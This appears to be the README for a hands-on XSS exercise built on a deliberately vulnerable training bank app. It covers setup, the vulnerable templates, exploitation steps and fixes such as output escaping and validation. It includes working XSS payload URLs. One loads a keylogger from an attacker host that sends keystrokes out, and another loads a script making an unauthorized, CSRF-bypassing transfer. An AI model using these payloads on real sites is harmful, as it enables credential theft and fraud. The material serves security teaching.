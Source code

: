 # Exercise 2 - XXS 

XSS exercise to help ypu understand XSS and its mitigations

## Setup and Start Applications

1. check out exercise1 
   * from command line: 'git checkout exercise1'
1. start the v-bank-app in debug mode
   * with maven command:'mvn clean spring-boot:run -f ./v-bank-app/pom.xml'
1. start the attacker-app
   * woth maven command: 'mvn clean spring-boot:run -f ./attacker-app/pom.xml'
   
## Search for XSS vulnerabilities

Hints:
* This app is a rather traditional multi page application with not much Ajax/Javascript magic. Therefore it is (mostly) susceptible to source based XSS vulnerabilities.
* Look for reflected XSS vulnerabilities where request parameters are directly written to the HTML output (page.tag is template used for all pages)
* Look for stored XSS vulnerabilities where form values are saved without validation/encoding/sanitization and then / or printed without escaping

Present vulnerabilities:
* page.tag template prints a number of requests parameters into the HTML without escaping:
  * *error* : `<div ...>${error}</div>`
  * *info* : `<div ...>${info}</div>` 
  * *message* : `<div ...>${message}</div>`
* *transfer.jsp* and *BankController.doTransfer(...)* save the transfer details without validation/etc. and *history.jsp* displays them w/o escaping

## Exploit and understand
1. Test reflected XSS in login page. You should get an alert pop-up with '1' displayed as the javascript in the request parameter executes: http://vbank.0.0.0.0.xip.io:8080/login?info=%3Cscript%3Ealert(1)%3C/script%3E 
1. Exploit stored XSS in login page:
   * As Alice send Bob the login link with installs a keylogger by exploiting the vulnerability: 
     http://vbank.0.0.0.0.xip.io:8080/login?info=%3Cscript%20src=%22http://attack.0.0.0.0.xip.io:9090/js/keylog.js%22%3E%3C/script%3E 
   * the keylogger send each keystroke to the attack app, the logged keystrokes you can see at http://attack.0.0.0.0.xip.io:9090/viewlog (do not let the browser autofil the form! ...because there are no keystrokes then)
   * This way Alice can steal Bob's login credentials. Even though the keylogger and the log viewer app are by far no perfect
1. Test stored XSS 
   * go to the transfer page and make a transfer to any valid account (i.e. 2-123456-22) with the note '<script>alert(2)</script>'
   * then go to the history page where you should get an alert pop-up with '1' displayed as the javascript entered in the note filed executes.
1. Exploit stored XSS
   * as Alice (alice / h1alice) you know Bob's account number (1-123456-11) and you will transfer him a little amount with the note including a malicious javascript posting a transfer (and overcoming CSRF protection by including the token)
     * The attack script is at http://attack.0.0.0.0.xip.io:9090/js/attack.js; use the method *transfer(formname, fromAccount, toAccount, amount, currency, action)* in the note. 
     * For example: `<script src="http://attack.0.0.0.0.xip.io:9090/js/attack.js"></script><script>transfer("fromBob1","1-123456-11","3-123456-33","1000","CHF")</script>`
      * Please transfer 1 CHF to Bob's account with the above note.
   * As Bob logs in and reviews his transactions the malicious script included in Alice's transfer executes and transfers Alice a larger amount without Bob's consent.
     * login as Bob (bob / h3ll0bob) and go to the history page (by clickin on the account number) 
     * the malicious javascript (XSS) should be loaded from the database and executed
     * if you refresh the page you sould see the transaction
  
## Mitigations:
  * validate input
  * encode text input (i.e. with HTML encoding)
  * sanitize text/HTML input (remove potentially dangerous char sequences)
  * escape output (replace control characters into renderable counterparts that are not interpreted as controls/commands by the parser)
  * use secure content policy headers to control which scripts the browser can execute

## Fix
* Escape output in *page.tag* and *history.jsp*:
For JSP please use c:out tag; you may explicitly set the escapeXml to true `<c:out value="${variable}" escapeXml=true />`
* Validate/encode input in *BankController.doTransfer(...)*
  
You may see the solution at https://github.com/vargadan/v-bank/tree/exercise2-solution
